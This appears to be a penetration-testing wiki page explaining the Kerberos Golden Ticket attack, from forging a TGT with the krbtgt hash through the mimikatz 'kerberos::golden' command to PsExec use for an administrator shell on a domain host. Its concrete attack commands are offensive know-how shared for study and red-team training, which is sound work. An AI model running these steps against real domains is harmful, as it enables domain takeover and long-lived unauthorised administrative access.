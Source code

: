 # Golden Ticket

## <mark style="color:red;">Intro</mark>

#### Golden Ticket Attack is a example of the Pass the Ticket Attack. the most infamous kerberos attack is known as the Golden Ticket which obviously is a kerberos ticket but with some differences.

{% hint style="info" %}
in order to create a valid TGT (with a valid PAC) we would require the target LT key and the KDC LT key. in case of a TGT these keys are identical (krbtgt). we would thus have to obtain the NTLM hash of the krbtgt account (RC4) or the AES key.
{% endhint %}

when we would use a golden ticket the first interaction is a TGS-REQ for a service ticket using the forged TGT (golden ticket). there is no prior credential submission or `AS_REQ/AS-REP`.

#### the difference between a golden ticket and other tickets (including the silver ticket ) is:

1. its created without any interaction with the DC. this is possible because kerberos is a stateless protocol so it does not keep track of all previously created TGTs.
2. it would require us to obtain the KDC long-term key (which is not easy to get)
3. its typically a TGT for an administrative account (RID 500 in a domain or domain administrator)
4. its typically valid for a long time (10 years by default)

## <mark style="color:red;">Creating a Golden Ticket</mark>

**with mimikatz we can create a Golden Ticket if we have the following information:**

* KDC LT key (e.g: krbtgt NTLM hash)
* Domain admin account name
* SID of domain admin account

#### all of these values can be obtained by any user in the domain except for KDC LT key.

assuming that we got access to administrator NTLM hash, we can move on with the attack.

```
kerberos::golden /user:client1 /domain:megacorp.local /sid:S-1-5-21-4081310294-3909750490-1069944866 /krbtgt:43e603fc59a5705d8a9f7c1c0a45b85e /id:500 /ptt
```

![](<../../../.gitbook/assets/image (200).png>)

now we can get a shell with admin privileges:

```
misc::cmd
```

![](<../../../.gitbook/assets/image (201).png>)

or using psexe:

```
PsExec64.exe \\192.168.1.105 cmd.exe
```
